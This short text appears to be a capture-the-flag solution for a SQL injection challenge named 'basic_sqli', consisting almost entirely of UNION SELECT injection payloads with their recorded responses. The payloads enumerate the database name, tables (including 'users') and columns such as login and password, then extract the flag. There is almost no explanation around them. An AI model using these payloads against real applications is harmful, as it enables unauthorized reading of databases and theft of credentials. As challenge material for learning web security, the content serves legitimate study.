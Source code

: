 ' or 1=2 UNION SELECT 1, DATABASE(), 3 #
# Response: basic_sqli

' or 1=2 UNION SELECT 1, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=basic_sqli), 3 #
# Response: id,flag,id,login,password

' or 1=2 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='basic_sqli'), 3 #
# Response: flag, users

' or 1=2 UNION SELECT 1, (SELECT flag from flag), 3 #
# Response: flag